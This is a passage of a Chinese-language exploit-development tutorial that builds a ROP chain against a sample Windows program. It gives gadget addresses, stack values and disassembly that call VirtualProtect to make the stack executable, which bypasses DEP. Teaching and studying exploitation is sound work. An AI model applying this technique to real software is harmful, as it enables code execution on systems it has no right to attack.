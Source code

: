 | ROP值 | 说明 |
| ---- | ---- |
| 59144000 | 第四个RET地址，将 VirtualProtect 地址赋值给EAX |

```assembly
00401459      | 8B C1                 | mov eax,ecx                 ; eax = VirtualProtect
0040145B      | C3                    | ret                         ; 跳到下一个构造好的ROP链
```

### 5.3 处理后续
现在`EAX`已经是`VirtualProtect`的地址了，已经可以`CALL EAX`了。但这里寻找的`CALL EAX`指令执行后还执行了其他的指令，会影响`RET`的位置，所以需要将后续处理好

| ROP值 | 说明 |
| ---- | ---- |
| 84164000 | 第五个RET地址，处理后续  |
| 00000000 | 给EDI赋值为0 |
| 00000000 | 给ESI赋值为0 |

```assembly
00401684      | 5F                    | pop edi             ; EDI = 0
00401685      | 5E                    | pop esi             ; ESI = 0
00401686      | C3                    | ret                 ; 跳到下一个构造好的ROP链
```

### 5.5 执行 VirtualProtect
开始执行`VirtualProtect`，需要传递参数，所以构造的内容还包括参数

| ROP值 | 说明 |
| ---- | ---- |
| 7B164000 | 第六个RET地址，执行 VirtualProtect |
| FCFF1200 | VirtualProtect参数1：当前栈地址 |
| 01000000 | VirtualProtect参数2：大小 |
| 40000000 | VirtualProtect参数3：修改的属性 |
| FCFF1200 | VirtualProtect参数4：随意的栈地址 |
| 00000000 | 填充物 |
| 00000000 | 填充物 |

```assembly
0040167B      | FF D0                 | call eax            ; 执行VirtualProtect
0040167D      | 83 C6 04              | add esi,4           ; esi = 4
00401680      | 3B F7                 | cmp esi,edi			; 第三步做的工作就为了这里
00401682      | 72 F1                 | jb consoleapplication1.401675   ; esi>edi, 所以不会跳转
00401684      | 5F                    | pop edi
00401685      | 5E                    | pop esi
00401686      | C3                    | ret                 ; 跳到下一个构造好的ROP链
```
